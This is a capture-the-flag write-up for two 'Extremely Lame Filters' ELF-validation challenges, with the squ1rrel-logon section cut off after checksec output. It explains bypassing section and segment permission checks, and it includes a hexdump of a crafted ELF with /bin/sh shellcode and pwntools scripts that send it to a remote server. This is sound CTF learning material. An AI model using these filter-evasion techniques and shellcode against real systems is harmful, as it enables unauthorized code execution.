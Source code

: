
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

```bash
[*] '/mnt/d/squ1rrel/squ1rrel-logon/terminal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    Stripped:   No
```

Partial RELRO, No canary, No PIE. But Nevermind. I don't use these.

